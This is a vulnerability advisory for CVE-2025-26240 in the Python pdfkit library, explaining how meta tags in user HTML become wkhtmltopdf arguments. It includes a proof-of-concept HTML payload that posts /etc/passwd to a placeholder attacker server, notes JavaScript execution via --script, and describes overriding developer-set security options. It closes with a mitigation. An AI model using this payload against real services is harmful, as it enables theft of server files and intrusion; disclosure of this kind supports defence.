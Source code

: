 ﻿# **The *pdfkit* vulnerability (CVE-2025-26240)**
## **Summary**
The vulnerability in the pdfkit library is caused by parsing user-provided HTML in the `from_string` method, with no available options to mitigate the risk. The `from_string` method uses meta tags whose names start with “pdfkit-” and treats their values as command-line parameters for the `wkhtmltopdf` tool. This parsing is performed in the `_find_options_in_meta` method, located in the `pdfkit/pdfkit.py` file. While this functionality may be useful for certain use cases (such as setting the paper size), some `wkhtmltopdf` arguments pose security risks. 
## **Simple POC**
If we pass following html data into the `from_string` method we will be able to read the contents of the **/etc/passwd** file.

```html
<meta name='pdfkit---quiet' content=''>
<meta name='pdfkit---enable-local-file-access' content=''>
<meta name='pdfkit---post-file' content=''>
<meta name='pdfkit-file--a' content='/etc/passwd'>
<meta name='pdfkit-<AttackerServer>?LFI-TEST=--' content='--cache-dir'>
<h1>LFI POC</h1>
```

There are a few constraints on the arguments that will be sent to wkhtmltopdf. The first is that the key must contain two dashes, which is why the last meta tag includes `--` in its name. The implementation of this check can be found in the `_normalize_options` method located in the `pdfkit/pdfkit.py` file.

```python
for key, value in list(options.items()):
    if '--' not in key:
        normalized_key = '--%s' % self._normalize_arg(key)
    else:
        normalized_key = self._normalize_arg(key) 
```

Due to insufficient validation, we are able to pass arguments that accept multiple values, not just key-value pairs. 

When we pass the example HTML file to the `from_string` method, we can see that the command generated and executed with the subprocess.Popen method is as follows:

`['/usr/local/bin/wkhtmltopdf', '--quiet', '--enable-local-file-access', '--post-file', 'file--a', '/etc/passwd', 'http://127.0.0.1:8080/?lfi-test=--', '--cache-dir', '-', '-']`

Resulting in following command:

`/usr/local/bin/wkhtmltopdf –quiet --enable-local-file-access --post-file file--a /etc/passwd http://127.0.0.1:8888/?lfi-test=-- --cache-dir - -`

This command sends the contents of the `/etc/passwd` file as an attachment in a POST request to `http://127.0.0.1:8888/?lfi-test=--` with the parameter `file--a`. The `--cache-dir` parameter is included solely to remove the extra dash added by the pdfkit library, ensuring that the wkhtmltopdf tool executes successfully.

When exploiting this vulnerability, we can observe that the contents of the `/etc/passwd` file are received on our Python listener.

![](image1.png)

In the same way, we can execute any JavaScript scripts by utilizing the `--script` command-line parameter, which runs the specified JavaScript code after generating the PDF, leading to SSRF and other potential vulnerabilities.
## **Bypass of pdfkit security measures**
The pdfkit library allows developers to provide an options dictionary for direct options that will be passed to `wkhtmltopdf`. The main issue is that these options can be easily bypassed due to Python’s way of handling dictionaries.

The options initialization is defined in `pdfkit/pdfkit.py` as follows:

```python
self.options = OrderedDict()
if self.source.isString():
    self.options.update(self._find_options_in_meta(url_or_file))
    self.environ = self.configuration.environ
    if options is not None:
        self.options.**update**(options)
```

The main issue is that Python preserves the order of keys when using the update method. For example, if we have the dictionary `{"a": 10, "b": 20}` and call update on it with `{"a": 15}`, the resulting dictionary will be `{"a": 15, "b": 20}`.

An attacker can always manipulate the order of command-line arguments sent to wkhtmltopdf. If a developer attempts to enforce security options such as `{"disable-javascript": "", "disable-local-file-access": ""}`, the attacker can set these options first and then override them by adding their counterparts, such as `enable-javascript` or `enable-local-file-access`. 
## **Easiest solution for developers**
The easiest solution to this vulnerability is probably to use other methods then `from_string`. For example developer can save the provided HTML to temporary file and then use `from_file` method, which doesn’t parse the meta tags. 

